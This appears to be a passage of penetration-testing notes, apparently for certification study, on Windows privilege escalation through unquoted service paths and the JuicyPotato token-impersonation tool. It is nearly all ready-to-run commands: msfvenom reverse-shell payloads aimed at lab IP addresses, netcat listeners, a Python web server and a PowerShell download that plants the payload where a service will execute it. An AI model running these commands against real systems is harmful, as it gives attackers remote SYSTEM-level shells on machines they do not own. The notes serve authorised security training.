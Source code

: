 ```
receive SYSTEM shell
listen & run shell.exe again to persist the short life shell
(need 2 listeners, make it to 2nd listener in 1st listener b4 it dies)
```

#### Unquoted service path

To list nonstandard services that start automatically

{% code overflow="wrap" %}
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows" 
```
{% endcode %}

find returned service having path without " " and find if precedential dir writable

```
icalcls "C:\puppet"
```

{% code overflow="wrap" %}
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.221 LPORT=4443 -f exe -o shell.exe

nc -nlvp 4443
python -m http.server 8080

$wc = New-Object System.Net.WebClient
$wc.DownloadFile("http://192.168.119.221:8080/shell.exe", "C:\program files\My.exe")
```
{% endcode %}

{% code overflow="wrap" %}
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
{% endcode %}

#### JuicyPotato ( `SeImpersonate` / `SeAssignPrimaryToken` )&#x20;

{% code overflow="wrap" %}
```
whoami /priv

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.129 LPORT=4433 -f exe > shell.exe

nc -nlvp 4433

PS C:\inetpub\wwwroot> c:\inetpub\wwwroot\JuicyPotato.exe -l 2145 -p c:\inetpub\wwwroot\shell.exe -t *

C:\Users\Public\JuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837
-p specifies the program we are trying to run
-l specify COM server listening arbitrary port
-t process creation mode (t if have selmpersonate priv)
```
{% endcode %}
